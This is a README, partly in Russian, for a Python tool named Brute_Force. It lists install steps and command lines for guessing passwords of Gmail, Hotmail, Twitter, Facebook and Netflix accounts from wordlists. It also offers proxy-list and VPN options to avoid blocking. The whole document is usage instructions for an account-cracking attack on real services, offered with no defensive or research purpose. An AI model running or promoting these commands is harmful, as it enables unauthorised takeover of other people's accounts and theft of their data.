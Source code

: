 ﻿# Brute_Force
[![Python 3.10.2](https://img.shields.io/badge/3.10.2-Python-blue.svg)](https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)
[![Termux](https://img.shields.io/badge/Termux-Android-brightgreen.svg)](https://termux.com/)
![platform](https://img.shields.io/badge/Platform-Linux%7CMacOS%7CWindows-brightgreen.svg)
## install :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
```


# Usage:

## Брутфорс Gmail
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## Брутфорс Hotmail
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## Брутфорс Twitter

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## Брутфорс Facebook

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## Брутфорс Netflix

```bash

Предпочтительно работает VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


И с нетерпением ждем большего(^-^) 
```



